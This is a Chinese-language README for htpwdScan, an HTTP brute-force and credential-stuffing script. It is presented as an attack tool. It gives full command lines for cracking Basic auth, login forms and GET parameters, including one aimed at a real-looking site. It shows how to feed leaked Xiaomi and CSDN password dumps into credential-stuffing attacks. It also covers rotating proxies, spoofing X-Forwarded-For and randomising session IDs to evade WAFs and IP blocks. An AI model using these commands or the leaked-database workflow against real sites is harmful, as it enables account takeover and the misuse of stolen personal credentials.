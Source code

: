 htpwdScan

在杰哥的基础上,迁移到了Python3, 支持杰哥.
====

**htpwdScan** 是一个简单的HTTP暴力破解、撞库攻击脚本. 它的特性：

- 支持批量校验并导入HTTP代理，低频撞库可以成功攻击大部分网站，绕过大部分防御策略和waf
- 支持直接导入互联网上泄露的**社工库**，发起撞库攻击
- 支持导入超大字典

### 简单示例 ###

* HTTP Basic认证

	>htpwdScan.py -u=http://auth.58.com/ -basic user.txt password.txt
	
	>导入用户名密码字典即可

* 表单破解
	>htpwdScan.py -f post2.txt -d user=user.txt passwd=password.txt -err="success\":false"
	
	>从 post2.txt 导入抓的http包，user和passwd是需要破解的参数，而 user.txt password.txt 是保存了密码的字典文件
	
	>**success":false** 是选择的失败标记，标记中若有双引号，请记得用右斜杠 \ 转义

* GET参数破解
	>htpwdScan.py -d passwd=password.txt -u="http://xxx.com/index.php?m=login&username=test&passwd=test" -get -err="success\":false"
	
	> 使用-get参数告诉脚本此处是GET请求
	
* 撞库攻击
	> htpwdScan.py -f=post.txt -database loginname,passwd=xiaomi.txt -regex="(\S+)\s+(\S+)" -err="用户名或密码错误" -fip

	>htpwdScan.py -f=post.txt -database passwd,loginname=csdn.net.sql -regex="\S+ # (\S+) # (\S+)" -err="用户名或密码错误" -fip
	
	>使用小米和csdn库发起撞库攻击。post.txt是抓包的HTTP请求

	>参数-regex设定从文件提取参数的正则表达式，此处需分组，分组的方式是使用括号()
	
	>小米的数据行格式是 `xxx@163.com	xxxxxxx` 也即 `(用户名)空白字符(密码)`
	
	>`(\S+)\s+(\S+)` 可指定第一个非空白字符拿去填充loginname，而第二个非空白字符串拿去填充passwd
	
	>csdn的数据行格式是`zdg # 12344321 # zdg@csdn.net` . 正则表达式写作`\S+ # (\S+) # (\S+)`
	
	>第一个#后面的非空白字符串填充passwd，第二个#后面的非空白字符串填充loginname
	
	>请注意，参数的顺序是重要的
	
	>-fip 是启用伪造随机IP
	
* 校验HTTP代理
	> htpwdScan.py -f=post.txt -proxylist=proxies.txt -checkproxy -suc="用户名或密码错误"
	
	> 要破解某个网站，批量测试使用代理是否连通目标网站，把HTTP请求保存到post.txt，然后用-suc参数设定连通标记
	
	>一个简单可行的校验方式是：
	
	> htpwdScan.py -u=http://www.baidu.com -get -proxylist=available.txt -checkproxy -suc="百度一下"

## 完整参数说明 ##
脚本支持的小功能较多，请耐心阅读以下完整说明。建议多使用 `-debug` 参数查看HTTP请求是否有问题，没问题再发起真正的破解。

	usage: htpwdScan.py [options]
	
	* An HTTP weak pass scanner. By LiJieJie *
	
	optional arguments:
	  -h, --help            显示帮助
	
	Target:
	  -u REQUESTURL         设定目标URL, 示例.
	                        -u="https://www.test.com/login.php"
	  -f REQUESTFILE        从文件导入HTTP请求
	  -https                当从文件导入HTTP请求时，启用https(SSL)
	  -get                  使用GET方法，默认: POST
	  -basic  [ ...]        HTTP Basic 暴力破解.
	                        示例. -basic users.dic pass.dic
	
	Dictionary:
	  -d Param=DictFile [Param=DictFile ...]
	                        为参数设定字典文件,
	                        支持哈希函数如 md5, md5_16, sha1.
	                        示例. -d user=users.dic pass=md5(pass.dic)
	
	Detect:
	  -no302                无视302跳转, 默认302敏感
	  -err ERR [ERR ...]    响应文本的破解失败标记,
	                        示例. -err "user not exist" "password wrong"
	  -suc SUC [SUC ...]    响应文本中的破解成功标记,
	                        e.g. -suc "welcome," "admin"
	  -herr HERR            响应HTTP头的破解失败标记
	  -hsuc HSUC            响应HTTP头的破解成功标记
	  -rtxt RetryText       响应文本中的重试标记，出现则重试请求,
	                        示例. -rtxt="IP blocked"
	  -rntxt RetryNoText    响应文本中的重试标记,未出现则重试请求，
	                        示例. -rntxt="<body>"
	  -rheader RetryHeader  响应头中的重试标记，出现则重试请求,
	                        示例. -rheader="Set-Cookie:"
	  -rnheader RetryNoHeader
	                        响应头中的重试标记，未出现则重试请求,
	                        示例. -rheader="HTTP/1.1 200 OK"
	
	Proxy and spoof:
	  -proxy Server:Port    设定少量HTTP代理
	                        示例. -proxy=127.0.0.1:8000,8.8.8.8:8000
	  -proxylist ProxyListFile
	                        从文件批量导入HTTP代理,
	                        示例. -proxylist=proxys.txt
	  -checkproxy           检查代理服务器的可用性.
	                        可用代理输出到 001.proxy.servers.txt
	  -fip                  生成随机X-Forwarded-For欺骗源IP
	  -fsid FSID            生成随机session ID. 示例. -fsid PHPSESSID
	  -sleep SECONDS        每次HTTP结束，等待SECONDS秒,
	                        避免IP被临时屏蔽，进入黑名单
	
	Database attack:
	  -database DATABASE    导入社工库中的数据.
	                        示例. -database user,pass=csdn.txt
	  -regex REGEX          从社工库中提取数据的正则表达式，必须分组.
	                        示例. -regex="(\S+)\s+(\S+)"
	
	General:
	  -t THREADS            工作线程数，默认50
	  -o OUTPUT             输出文件.  默认: 000.Cracked.Passwords.txt
	  -debug                进入debug模式检查HTTP请求和HTTP响应
	  -nov                  只显示破解成功的条目，不显示进度
	  -v                    show program's version number and exit


### 反馈 ###

使用中若发现问题，请反馈给我。  my[at]lijiejie.com [http://www.lijiejie.com](http://www.lijiejie.com)

